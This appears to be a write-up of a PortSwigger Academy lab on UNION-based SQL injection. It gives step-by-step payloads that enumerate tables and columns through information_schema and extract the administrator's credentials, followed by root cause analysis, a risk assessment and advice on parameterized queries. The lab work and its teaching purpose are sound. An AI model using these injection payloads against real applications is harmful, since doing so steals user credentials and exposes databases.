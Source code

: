 # SQL Injection - UNION Attack: Listing Database Contents

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: Database Enumeration (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

**Step 2: Identifying String-Compatible Columns**

```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK

**Step 3: Enumerating Database Tables**

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![burpsuite response](./misc-images/08-1.png)

This displayed several tables within the database including users_omjluk.

**Step 4: Enumerating Table Columns**

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_omjluk'--
```

![burpsuite response](./misc-images/08-2.png)

**Step 5: Retrieving Administrator Credentials**

```sql
' UNION SELECT username_wondnj,password_czpiww FROM users_omjluk WHERE username_wondnj='administrator'--
```

![burpsuite response](./misc-images/08-3.png)

Logged in as the administrator using the password retrieved.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked |
| Information Disclosure | High – Complete database structure revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to enumerate database contents using `UNION-based` SQL injection. The `information_schema` queries proved highly effective in discovering table and column names. Learned the importance of understanding database metadata structures and the critical need for proper access controls to prevent unauthorized database enumeration.

---

## Notes

